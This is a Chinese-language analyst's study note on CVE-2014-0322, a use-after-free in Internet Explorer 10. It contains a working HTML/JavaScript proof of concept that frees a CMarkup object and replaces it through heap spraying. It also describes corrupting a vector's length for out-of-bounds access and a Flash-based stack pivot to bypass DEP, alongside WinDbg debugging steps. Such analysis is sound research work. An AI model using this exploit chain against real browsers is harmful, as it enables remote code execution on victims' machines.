









# CVE-2014-0322 分析

算是第一个克服畏难情绪、没有依赖他人分析文章的sample；慢慢自己会去下一些断点，总结一些内存结构，一个有纪念意义的sample。

## 参考
[一窥Dom结构](InternetExplorer.md#domie10)

[Flash数据结构](InternetExplorer.md#FlashBasics)

## UAF分析
Win7+IE10+flashplayer12_0r0_70_winax

并非稳定exploit，HeapSpray并不一定能喷射成期望的布局

```
<!-- crash POC -->
<html>
<head>
</head>
<body>

    <script>
        function debug_stop(text){
            Math.atan2(0xbadc0de, text);
        }
        
        function debug_continue(text){
            Math.atan(text);
        }
        
    
        var g_arr = [];
        var arrLen = 0x250;
        function dword2data(dword)
        {
            var d = Number(dword).toString(16);
            while (d.length < 8)
                d = '0' + d;
            return unescape('%u' + d.substr(4, 8) + '%u' + d.substr(0, 4));
        }
        
        function eXpl()
        {
            debug_stop("enter eXpl");
            var a = 0;
            for (a = 0; a < arrLen; a++) {
                g_arr[a] = document.createElement('div');
            }
            // Build a new object
            var b = dword2data(0x19fffff3);
            while (b.length < 0x360)
            {
                // mov     eax,dword ptr [esi+98h]
                // ...
                // mov     eax,dword ptr [eax+8]
                // and     dword ptr [eax+2F0h],0FFFFFFBFh
                if (b.length == (0x98 / 2))
                {
                    b += dword2data(0x1a000010);
                }
                // mov     ecx,dword ptr [edx+94h]
                // mov     eax,dword ptr [ecx+0Ch]
                else if (b.length == (0x94 / 2))
                {
                    b += dword2data(0x1a111111);
                }
                // mov     eax,dword ptr [edx+15Ch]
                // mov     ecx,dword ptr [eax+edx*8]
                else if (b.length == (0x15c / 2))
                {
                    b += dword2data(0x42424242);
                } else
                {
                    b += dword2data(0x19fffff3);
                }
            }
            var d = b.substring(0, (0x340 - 2) / 2);
            // trigger
            
            debug_stop("before trigger bug, enable CMarkup breakpoint");
            try {
                this.outerHTML = this.outerHTML
            
                } catch (e) {
            }
            
            debug_stop("before CollectGarbage");
            CollectGarbage();
                
            // Replace freed object
            
            for (a = 0; a < arrLen; a++)
            {
                g_arr[a].title = d.substring(0, d.length);
            }
            
            debug_stop("finish replace object")
        }
        // Trigger the vulnerability
        function trigger()
        {
            var a = document.getElementsByTagName("script");
            var b = a[0];
            b.onpropertychange = eXpl;
            var c = document.createElement('SELECT');
            debug_stop("Before Append Child");
            c = b.appendChild(c);
        }
        
        trigger()
    </script>
    
    <!-- <embed src=AsXploit.swf width="10" height="10"></embed> -->
    
</body>
</html>


调试事项：
1. enable hpa
2. 断点
bu MSHTML!CScriptElement::CreateElement "gu; gu; .printf \"CScriptElement Address: %p\\n\",poi(ebp-4); "
bu jscript9!Js::Math::Atan ".printf \"DEBUG: %mu\\n\", poi(poi(esp+10)+c);g"
bu jscript9!Js::Math::Atan2 ".printf \"DEBUG: %mu\\n\", poi(poi(esp+14)+c);"
bu MSHTML!CMarkup::~CMarkup ".printf \"Release CMarkup Object: %p\\n\",ecx; gu;"
bu MSHTML!CMarkup::CMarkup "gu; .printf \"New CMarkup Object: %p\\n\",eax ;"
```

```
b.onpropertychange = eXpl
这行代码会触发eXpl的执行
```

```
执行this.outerHTML = this.outerHTML时，会创建一个新的script节点，用它替换原有Script节点
```






```
c = b.appendChild(c), 因为b已经不在主Dom流中了，为了对它appendChild需要创建一条新的Dom流; 
而对b appendChild, 会触发eXpl执行（b的属性被改变啊）
```



```
再次执行
this.outerHTML = this.outerHTML， 不知为何这里多了CMarkup_a的释放，更不知为何后面又重新引用它，从而就UAF啦
```


```
通过在call释放CMarkup_a前下断点，发现了CMarkup_a被释放的原因
MSHTML!InjectHtmlStream 有一段这样的Code, 先释放临时CMarkup对象，再释放script_a 所在CMarkup 对象

```



```
CMarkup::~CMarkup 并不是每次都释放CMarkup，
如果对象还被引用，则~CMarkup只是减少引用计数；
如果引用计数为0，才会真正释放CMarkup 对象
```



```
当eXpl执行完回到appendChild的逻辑时，继续用到了CMarkup_a, 因为它是对script_a appendChild
综上： 本质上还是CMarkup对象的引用计数更新不对，导致错误释放

```

## 数组越界访问
```
CMarkup Object被19fffff3填充，而后续会有inc [eax+10]，从而修改了1a000000 处vector的length
```


```
把下一个vector的length改为0x3FFFFFFF，可读写范围更大了
```


## Bypass ALSR
```
Bypass ALSR与其他exploit类似，之前分析过，略
```


## Bypass DEP
```
在flash .text字段搜寻0xC394用于stack pivot
//  94              xchg    eax,esp
//  c3              ret        

这里又可以继续了解PE结构啦~~~
```





## Run Shellcode


******************************************************



******************************************************


******************************************************

